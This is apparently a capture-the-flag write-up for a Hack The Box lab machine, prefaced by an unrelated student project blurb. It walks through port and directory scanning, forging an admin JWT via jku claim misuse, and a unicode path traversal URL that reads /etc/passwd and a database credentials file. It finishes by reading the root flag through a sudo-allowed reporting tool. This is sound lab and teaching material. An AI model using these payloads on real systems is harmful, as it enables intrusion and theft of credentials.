


> Forenote

```md
Google's “20% Time”, inspired by Sergey Brin's and Larry Page's Montessori School experience, is a philosophy and policy that every Google employee spends 20% of their time (the equivalent of a full work day each week) working on ideas and projects that interest that employee. Ideas like Gmail, Google News, and AdSense have been developed from this working model. 

This website is a project I am working on in my senior English literature and composition course. During this project I will be spending 20% of my class time working on developing my idea through a progressive process to its final product. This website will be a space where I update visitors on the progress of my idea for this project. Thank you for visiting and I hope you follow along on my journey.

D’Onfro, Jillian. “The Truth about Google’s Famous ‘20% Time’ Policy.” Business Insider, Business Insider, 17 Apr. 2015, http://www.businessinsider.com/google-20-percent-time-policy-2015-4  
```

# Paper

This challenge was incredibly simple yet fun to play around in. There were hints across each step along the way, however it took time to notice and trial and error.

Let's get started!

## Recon

<code></code>

### nmap

```console
└──╼ #nmap -sS -sC -sV -A -p- 10.10.11.126
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-13 18:34 EST
Nmap scan report for hackmedia.htb (10.10.11.126)
Host is up (0.027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fd:a0:f7:93:9e:d3:cc:bd:c2:3c:7f:92:35:70:d7:77 (RSA)
|   256 8b:b6:98:2d:fa:00:e5:e2:9c:8f:af:0f:44:99:03:b1 (ECDSA)
|_  256 c9:89:27:3e:91:cb:51:27:6f:39:89:36:10:41:df:7c (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: 503
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=2/13%OT=22%CT=1%CU=41548%PV=Y%DS=2%DC=T%G=Y%TM=620995F
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   26.29 ms 10.10.14.1
2   26.30 ms hackmedia.htb (10.10.11.126)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.42 seconds
```

### gobuster

```console
└──╼ #gobuster fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.11.126/FUZZ -b "404, 503, 200"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.126/FUZZ
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Excluded Status codes:   200,404,503
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/13 18:42:24 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=308] [Length=264] http://10.10.11.126/register
Found: [Status=308] [Length=260] http://10.10.11.126/upload  
Found: [Status=308] [Length=264] http://10.10.11.126/checkout
Found: [Status=308] [Length=258] http://10.10.11.126/error   
Found: [Status=308] [Length=258] http://10.10.11.126/debug   
Progress: 11719 / 220561 (5.31%)                            ^C
[!] Keyboard interrupt detected, terminating.
                                                             
===============================================================
2022/02/13 18:42:58 Finished
===============================================================
```

### nikto

```console
└──╼ #nikto -host http://10.10.11.126/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.11.126
+ Target Hostname:    hackmedia.htb
+ Target Port:        80
+ Start Time:         2022-02-13 19:15:21 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
```

### JWT

<code></code>

When checking the cookies, there was a JWT Token present which will probably be our vector. 

There seems to be a value in the Header called `jku`. Upon further research this tells our website where our keys are held via the url.

When we open this site, we get these values.

```json
{
    "keys": [
        {
            "kty": "RSA",
            "use": "sig",
            "kid": "hackthebox",
            "alg": "RS256",
            "n": "AMVcGPF62MA_lnClN4Z6WNCXZHbPYr-dhkiuE2kBaEPYYclRFDa24a-AqVY5RR2NisEP25wdHqHmGhm3Tde2xFKFzizVTxxTOy0OtoH09SGuyl_uFZI0vQMLXJtHZuy_YRWhxTSzp3bTeFZBHC3bju-UxiJZNPQq3PMMC8oTKQs5o-bjnYGi3tmTgzJrTbFkQJKltWC8XIhc5MAWUGcoI4q9DUnPj_qzsDjMBGoW1N5QtnU91jurva9SJcN0jb7aYo2vlP1JTurNBtwBMBU99CyXZ5iRJLExxgUNsDBF_DswJoOxs7CAVC5FjIqhb1tRTy3afMWsmGqw8HiUA2WFYcs",
            "e": "AQAB"
        }
    ]
}
```

While researching, I also fell upon this site which happened to be the way into the admin account.

> `Link:` <https://blog.pentesteracademy.com/hacking-jwt-tokens-jku-claim-misuse-2e732109ac1c>

Using this, we can now change our `n` using the generated values.

```json
{
    "keys": [
        {
            "kty": "RSA",
            "use": "sig",
            "kid": "hackthebox",
            "alg": "RS256",
            "n": "[Value]",
            "e": "AQAB"
        }
    ]
}
```

We can also generate our token using the same methodology as the website.

We can input into the cookie and then login as admin.

<code></code>

When looking around the website, I noticed something weird with one of the urls.

> <http://10.10.11.126/display/?page=monthly.pdf>

We might be able to this as our way into the files. However, there was a problem. It wouldn't allow me to access the `/etc/passwd` file.

I linked the name of the box to this point here and figured it must be a `Unicode Normalization Vulnerability`. Meaning we must use unicode characters in replacement for `.` and `/` 

> `Link:` <https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability>

> `http://10.10.11.126/display/?page=..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8fetc%ef%bc%8fpasswd`

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin sshd:x:112:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false code:x:1000:1000:,,,:/home/code:/bin/bash
```

## User

We are now able to see all users on this server, but one in particular stood out. The user `code` seems to be a local user, which means the user.txt may lay here.

Using the same methodology, we may extract the user token using the url.

## Root

From here, we need to find a way to access the root directory. We are unable to access it using the url, like we did for the user flag.

There is only "oh-so-much" gobuster we can do, but with access to the files in the system, we can now check all sites in the webpage.

Navigating to `/etc/nginx/sites-available/default`, we are now able to see what we need.

There seems to be user passwords in the `db.yaml` file, also included with in the location `/home/code/coder`

> <https://hackmedia.htb/display/?page=..／..／..／..／..／..／home／code／coder／db.yaml>

```
mysql_host: "localhost" mysql_user: "code" mysql_password: "PASSWORD" mysql_db: "user"
```

Lets login.

Linpeas did not provide any useful vectors into our root. And our sudo exploits did not work either.

However, when `sudo -l` is run, we have access to a program called `treport`

Upon running we have access to the following commands.

```console
code@code:~/coder$ sudo /usr/bin/treport 
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
```

Since we know that the root.txt will be in the `/root` directory, we can download the file from the network using `File:///root/root.txt`, giving us our flag.

We are done!